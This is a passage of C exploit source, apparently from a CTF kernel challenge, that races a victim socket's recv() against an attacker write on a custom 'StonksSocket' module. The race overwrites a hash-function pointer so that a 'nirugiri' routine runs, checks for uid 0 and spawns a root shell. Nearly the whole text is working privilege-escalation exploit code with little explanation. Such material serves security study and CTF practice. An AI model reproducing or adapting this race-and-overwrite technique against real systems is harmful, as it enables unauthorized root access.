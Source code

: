 ```exploit.c
  usleep(1500 * 1000);
  GO=1;
  for (int ix = 0; ix != 30; ++ix) {
    usleep(1);
  }
  write(victim_socket, bigbuf, 8);
}

int main(int argc, char *argv[]) {
  puts("[.] exploit started.");
  printf("[+] nirugiri @ %p\n", nirugiri);

  // create receiver socket
  int server_socket = listenat(PORT);
  struct sockaddr peer_addr;
  unsigned len = sizeof(peer_addr);

  // connect to the socket
  puts("[+] requesting connection");
  victim_socket = connectto(PORT);
  attacker_socket = connectto(PORT);

  // accept victim and set hash filter
  puts("[+] accepting victim connection");
  assert((victim_sock_fd = accept(server_socket, &peer_addr, &len)) != -1);
  assert(ioctl(victim_sock_fd, OPTION_CALL, &call_option_empty) == 0);

  // accept attacker connection and set evil hash filter
  puts("[+] accepting attacker connection and setting hashes");
  for (int ix = 0; ix != BIGSIZE / 8; ++ix) {
    ((ulong*)bigbuf)[ix] = (ulong)nirugiri;
  }
  assert((attacker_sock_fd = accept(server_socket, &peer_addr, &len)) != -1);
  assert(ioctl(attacker_sock_fd, OPTION_CALL, &call_option_security) == 0);
  assert(write(attacker_socket, bigbuf, BIGSIZE) != -1);

  /*** invoke race ***
  * the main point is, operations is done in exact order below;
  *
  * 1. victim recv() start, which takes much time to read huge buf
  * 2. attacker StonksSocket is put
  * 3. attacker recv() is done, which means overwrite of victim Socket
  * 4. end reading of victim buf, which leads to hash_function(), in this case nirugiri()
  ***/
  puts("[+] starting race...");
  pthread_t receiver_thr, writer_thr;
  pthread_create(&receiver_thr, NULL, receiver, NULL);
  pthread_create(&writer_thr, NULL, writer, NULL);
  for (int ix = 0; ix != 100; ++ix) {
    usleep(50);
  }
  recv(victim_sock_fd, bigrcvbuf, 0x100, 0);

  sleep(1);
  if (getuid() != 0) {
    puts("\n[FAIL] couldn't get root...");
    exit(1);
  } else {
    puts("\n\n[SUCCESS] enjoy your root.");
    system("/bin/sh");
  }

  // end of life (UNREACHABLE)
```